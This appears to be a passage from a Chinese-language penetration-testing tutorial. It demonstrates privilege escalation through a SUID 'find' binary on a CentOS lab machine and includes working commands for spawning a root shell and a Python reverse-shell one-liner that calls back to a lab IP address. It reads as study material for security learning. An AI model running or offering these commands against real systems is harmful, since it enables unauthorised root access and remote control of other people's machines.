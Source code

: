### 尝试提权

这里首先看一下现有获取到的权限是什么，可以看到就是一个普通用户权限。

![image-20230331091622085](https://s2.loli.net/2023/04/02/zvU6ud75FlLtK2O.png)

接下来使用find进行提权，文件名可以随便找一个，由于find是查找，所以后面需要跟着个文件名，执行命令就执行你想要执行的命令即可。

这里我执行命令后就能够看到是以root权限执行。

```
find 文件名 -exec 执行命令 \;
```

![image-20230331093031220](https://s2.loli.net/2023/04/02/IWNwYdD8p1nATxR.png)

也可以使用使用网站中给予的命令来提权，如果需要

```
find . -exec /bin/sh \; -quit
```

![image-20230331104359834](https://s2.loli.net/2023/04/02/McgAIey5NmVu2zh.png)

### 反弹权限

这里可以使nc或者python进行反弹，但是在测试中发现反弹回来还是普通用户权限，在执行一些命令前还是需要使用find，不知道网上其它文章为什么反弹回来的是root权限。

这里我使用python反弹做演示，由于我的centos7环境中并没有nc。

#### 查看是否存在python

使用命令可以查看python的版本，以及确定是否存在python

```
python
```

![image-20230331102338289](https://s2.loli.net/2023/04/02/EnwRoN1MA5xPHzl.png)

#### 生成python反弹命令

可以用下面的网站一键生成反弹命令

[一键生成shell反弹](https://forum.ywhack.com/reverse-shell/)

```
find 111 -exec python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.10.20",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")' \;
```

![image-20230331103023181](https://s2.loli.net/2023/04/02/zQi8YBDv5UmlorH.png)

#### 反弹效果

这里也可以通过nc或则python脚本进行反弹，但本质上目的都是获取一个root权限的shell。而且通过nc或者python脚本反弹的shell很可能还是普通用户权限，所以建议直接使用上面那种方法。
